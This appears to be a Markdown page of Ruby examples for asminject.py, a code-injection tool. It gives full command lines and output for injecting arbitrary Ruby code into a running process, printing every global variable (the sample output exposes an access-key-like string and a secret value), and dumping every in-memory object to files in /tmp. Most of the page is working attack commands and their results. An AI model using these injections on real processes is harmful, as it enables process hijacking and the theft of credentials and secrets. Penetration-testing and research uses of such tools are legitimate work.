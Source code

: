 # asminject.py examples - Ruby

<a href="../README.md">[ Back to the main README.md ]</a>

* [Execute arbitrary Ruby code inside an existing Ruby process](#execute-arbitrary-ruby-code-inside-an-existing-ruby-process)
* [Write all global variables to standard out](#write-all-global-variables-to-standard-out)
* [Write a text representation of all objects in memory to disk](#write-a-text-representation-of-all-objects-in-memory-to-disk)

## Execute arbitrary Ruby code inside an existing Ruby process

The `execute_ruby_code.s` payload currently has a few limitations:

* No ability to require additional Ruby gems
* The targeted process will lock up after the injected code finishes executing

This payload requires one variable: `rubycode`, which should contain the Ruby code you want to execute in the existing Ruby process.

This payload requires relative offsets for the `libruby` shared library used by the target process.

In one terminal window, launch the practice Ruby loop, e.g.:

```
$ ruby practice/ruby_loop.rb

2022-05-12T13:40:51-0700 - Loop count 0
2022-05-12T13:40:56-0700 - Loop count 1
2022-05-12T13:41:01-0700 - Loop count 2
```

In a separate window, find the target process, and inject the code:

```
# ps auxww | grep ruby | grep -v grep

root     2037714  [...] ruby practice/ruby_loop.rb

# python3 ./asminject.py 2037714 execute_ruby_code.s \
   --relative-offsets-from-binaries \
   --var rubycode "puts(\\\"Injected Ruby code\\\")"
```

In the first window, note that the loop is interrupted by the injected code, but fails to continue executing the original loop even though the process remains running:

```
2022-05-12T13:44:41-07:00 - Loop count 7
2022-05-12T13:44:46-07:00 - Loop count 8
Injected Ruby code
```

## Write all global variables to standard out

Use [the following Ruby code, which was borrowed from this Gist by Dmitry Yakimenko](https://gist.github.com/detunized/1620634)

```
global_variables.sort.each do |name|; puts "#{name}: #{eval "#{name}.inspect"}
```

e.g.

```
# python3 ./asminject.py 84955 execute_ruby_code.s \
   --relative-offsets-from-binaries \
   --var rubycode "global_variables.sort.each do |name|; puts \\\"#{name}: #{eval \\\"#{name}.inspect\\\"}\\\"; end"
```

Example output:

```
2022-06-07T13:50:06-07:00 - Loop count 10
2022-06-07T13:50:11-07:00 - Loop count 11
$!: nil
...omitted for brevity...
$$: 84955
...omitted for brevity...
$0: "practice/ruby_loop.rb"
...omitted for brevity...
$example_global_var_1: "AKIASADF9370235SUAS0"
$example_global_var_2: "This value should not be disclosed"

```

## Write a text representation of all objects in memory to disk

Use the following Ruby code:

```
$obj_dump_counter = 0; ObjectSpace.each_object{|e| File.open("/tmp/rubydump-#{$obj_dump_counter}.dat", "wb") { |file| file.write(e); $obj_dump_counter += 1; }}
```

e.g.

```
python3 ./asminject.py 163017 execute_ruby_code.s \
   --relative-offsets-from-binaries \
   --var rubycode '$obj_dump_counter = 0; ObjectSpace.each_object{|e| File.open(\"/tmp/rubydump-#{$obj_dump_counter}.dat\", \"wb\") { |file| file.write(e); $obj_dump_counter += 1; }}'
```